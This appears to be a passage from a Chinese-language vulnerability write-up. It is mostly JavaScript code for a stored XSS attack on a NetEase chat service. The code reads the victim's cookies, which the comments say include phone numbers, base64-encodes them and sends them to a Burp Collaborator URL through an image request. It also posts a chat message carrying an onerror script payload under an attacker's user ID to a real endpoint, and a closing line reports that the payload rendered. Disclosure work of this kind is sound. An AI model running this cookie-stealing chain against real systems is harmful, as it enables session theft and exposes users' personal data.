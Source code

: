         // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }

        // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }
        //获取并发送cookie，带有手机号
        const sendCookie = () => {
            var encoded = encode(document.cookie)
            // send data
            justSend(api_burp + '?data=' + encoded)
        }

        // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881854", "channelId": "1459481", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": [{ "type": "TITLE", "data": { "banner": "", "icon": "https://ok.166.net/reunionpub/pr_ie_b9j52wbl0e3l6hvzjbq\u003d\u003d_50_1535083040_870", "atUser": "@灯中烛火", "text": "签到成功！" }, "order": 0.0 }, { "type": "TEXT", "data": "<img src=x onerror=console.log(111222233)>", "order": 1.0 }, { "type": "BUTTON", "data": [{ "text": "立即抽奖", "action": { "type": "OPEN_URL", "data": "https://act.ds.163.com/caa6e9455189fb93/64eeea62ee5826000175e65a?utm_source\u003dchatroom\u0026utm_medium\u003dbot+" } }], "order": 2.0 }], "contentType": "IMAGE_TEXT_TEMPLATE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        startSendLinkMessage()

6. 结果展示
    payload已经渲染到前端

